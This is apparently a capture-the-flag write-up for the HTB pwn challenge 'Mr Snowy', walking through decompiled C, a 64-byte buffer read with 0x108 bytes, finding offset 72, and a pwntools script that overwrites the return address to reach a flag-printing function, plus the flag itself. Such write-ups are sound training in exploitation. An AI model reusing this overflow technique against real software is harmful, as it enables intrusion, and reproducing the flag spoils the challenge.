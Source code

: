 # Mr Snowy [ Pwn ]

![image](https://user-images.githubusercontent.com/56447720/144405133-fce67fce-1a26-4b8c-8d1d-4700f372a297.png)

## Solution

### Checksec

![image](https://user-images.githubusercontent.com/56447720/144418184-a7ce15ee-4cc8-4ffa-a5b3-681002b860b7.png)

- The `NX` is enabled which makes the stack unexecutabble
- THe `PIE` is disabled so we dont have to find the address
- The binary is just a simple bufferoverflow

### Functions of the binary has

![image](https://user-images.githubusercontent.com/56447720/144419529-fa60777f-2ee8-4d72-acd0-99e7cd4d7aba.png)


### Main function

![image](https://user-images.githubusercontent.com/56447720/144418082-2035b197-9a54-474e-badf-c758bd8127fa.png)


- The main funciton after executing calls 3 functions , let's checkout the snowman function

#### It's quiet difficult to do the task only with asm , I've used Ghidra which has a feature of converting ( almost same ) asm back to the original C code

### Snowman Function

```c

void snowman(void)

{
  int iVar1;
  char local_48 [64];
  
  printstr("\n[*] This snowman looks sus..\n\n1. Investigate 🔎\n2. Let it be   ⛄\n> ");
  fflush(stdout);
  read(0,local_48,2);
  iVar1 = atoi(local_48);
  if (iVar1 != 1) {
    printstr("[*] It\'s just a cute snowman after all, nothing to worry about..\n");
    color("\n[-] Mission failed!\n",&DAT_0040161a,&DAT_00401664);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  investigate();
  return;
}


```
- This code is basically the first part 
     ![image](https://user-images.githubusercontent.com/56447720/144408636-c805745e-25eb-48a5-8e07-4c83074d5f97.png)

- When option `1` is selected it calls antoher funtion : `investigate()`

### Inverstigate Function

```c

void investigate(void)

{
  int iVar1;
  char local_48 [64];
  
  fflush(stdout);
  printstr(
          "\n[!] After some investigation, you found a secret camera inside the snowman!\n\n1.Deactivate ⚠\xfe0f\n2. Break it   🔨\n> "
          );
  fflush(stdout);
  read(0,local_48,0x108);
  iVar1 = atoi(local_48);
  if (iVar1 == 1) {
    puts("\x1b[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  iVar1 = atoi(local_48);
  if (iVar1 == 2) {
    puts("\x1b[1;31m");
    printstr(
            "[!] This metal seems unbreakable, the elves seem to have put a spell on it..\n[-]Mission failed!\n"
            );
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  fflush(stdout);
  puts("\x1b[1;31m");
  fflush(stdout);
  puts("[-] Mission failed!");
  fflush(stdout);
  return;
}

```
### There's another function named `deactivate camera`

```c

void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;
  
  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0x0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,0x3a,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}

```


## Overflow

- So we basically have to find the offset in investigation function, overflow it and set the `$rip` ( Instruction pointter ) to `deactivate_camera` function

- Find OFFSET
- Set breakpoint at `exit` in `investigate()` [ address of exit : 0x00000000004013ea ] and create a pattern to find offset

![image](https://user-images.githubusercontent.com/56447720/144418424-fcdf5250-a4ce-4edc-bda1-91df1c306755.png)

 - Run the program , give option `1` to go in `investigate` function

![image](https://user-images.githubusercontent.com/56447720/144418694-e1b7f129-2354-4377-b280-af26893a00cb.png)
 
- This is how stack will look when we hit our breakpoint

![image](https://user-images.githubusercontent.com/56447720/144416069-49db01c2-1f83-4bd7-a0f1-c340cb49f6e1.png)


![image](https://user-images.githubusercontent.com/56447720/144418590-d00fa329-4da0-4700-bcd5-dc64a899d5ae.png)

- So the OFFSET is 72 

## Exploit

- Send buffer of 72 characters
- Add the addresss of `deactivate camera` function
- Send the payload and get the flag

### Solve.py

```py
from pwn import *

# nc 134.209.30.250:30947
p = remote('134.209.30.250',30947)

payload = b'A'*72
payload += p64(0x00401165)

p.recv()
p.sendline(b'1')
p.recv()
p.sendline(payload)
p.interactive()
```
### Flag

![image](https://user-images.githubusercontent.com/56447720/144417152-21dc9cc1-5c83-4db1-830c-9f4db56e2360.png)

```bash
# Flag : HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}
```

